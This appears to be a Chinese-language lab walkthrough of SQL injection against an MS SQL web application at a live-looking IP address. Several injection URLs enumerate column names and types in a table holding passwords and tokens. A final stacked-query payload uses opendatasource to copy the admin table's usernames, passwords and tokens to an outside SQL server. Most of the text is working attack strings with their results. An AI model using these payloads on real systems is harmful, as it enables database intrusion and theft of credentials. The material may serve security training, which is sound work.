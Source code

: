 **查询表信息**

```sql
SELECT top 1 CONCAT(name,'__',colid,'__',xtype) from syscolumns where id=1977058079
-- ms sql 2000 不支持 concat 函数， 2019 支持，其他未确认。
```

**查询表名**

```bash
http://59.63.200.79:8015/?id=1' and 1=2 union select 1,2,( SELECT top 1 name from syscolumns where id=1977058079  and name not in ( 'password','id','passwd','token') ) from syscolumns -- gg

## result: id, password,token,passwd

```

**查询表 xtype**

```bash
## 查询表名
http://59.63.200.79:8015/?id=1' and 1=2 union select 1,2,( SELECT top 1 xtype from syscolumns where id=1977058079  and name not in ('id','passwd','token')  ) from syscolumns -- gg

# id => 56                      -> int 
# passwd => 175             -> char 
# token => 175               -> char 
# username  => 167        -> varchar 
```

### 本地创建表

```sql
create table admin999 (id int, username varchar(255),passwd char(255),token char(255)) ;
```

![](https://nc0.cdn.zkaq.cn/md/8461/7bb5da8dbc10d265ffc64ee9ddfd37b9_65644.png)

### 反弹数据

```
http://59.63.200.79:8015/?id=1'; insert into opendatasource('sqloledb','server=SQL5095.example.net,1433;uid=DatabaseName_admin;pwd=DatabasePassword;database=DatabaseName').DatabaseName.dbo.admin999 select id,username,password,token from admin -- gg
```

![](https://nc0.cdn.zkaq.cn/md/8461/e623be3cc70d7e5b3755c1ccef67e97b_13880.png)
